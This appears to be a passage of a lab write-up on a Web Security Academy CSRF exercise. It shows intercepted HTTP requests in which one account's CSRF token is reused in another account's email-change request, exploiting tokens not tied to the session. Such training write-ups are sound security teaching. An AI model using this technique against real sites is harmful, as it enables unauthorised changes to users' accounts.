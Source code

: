 
## Exploiting the Flaw

If the CSRF token is not tied to the user's session, we can **reuse any other valid token**. The server will accept it as long as the token itself is valid, even if it doesn't belong to the current session.

### Step 1: Get Wiener's CSRF Token

Logged in as `wiener` and intercepted the change email request:

```http
POST /my-account/change-email HTTP/2
Host: example.web-security-academy.net
Cookie: session=9PB8Veq3lkJHgs2D4HZnfvUKuJOGvxnd
...
Referer: https://example.web-security-academy.net/my-account?id=wiener

email=wiener%40user.net&csrf=6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4
```

* **Wiener's CSRF Token:** `6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4`

---

### Step 2: Get Carlos's CSRF Request

Logged in as `carlos:montoya` (attacker) and intercepted his CSRF token:

```http
POST /my-account/change-email HTTP/2
Host: example.web-security-academy.net
Cookie: session=x4B7o8ZwRIVNSEkvEiyDDuuJ2dQEmqHI
...
Referer: https://example.web-security-academy.net/my-account?id=carlos

email=test%40user.net&csrf=V7b2azJ1ChGis7L0p2dCyFazJpCWoFMP
```

* **Carlos's CSRF Token:** `V7b2azJ1ChGis7L0p2dCyFazJpCWoFMP`

---

### Step 3: Replace Carlos's Token with Wiener's

I replaced Carlos’s token with Wiener’s valid token and sent the following request:

```http
POST /my-account/change-email HTTP/2
Host: example.web-security-academy.net
Cookie: session=x4B7o8ZwRIVNSEkvEiyDDuuJ2dQEmqHI
...
Referer: https://example.web-security-academy.net/my-account?id=carlos

email=test%40user.net&csrf=6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4
```
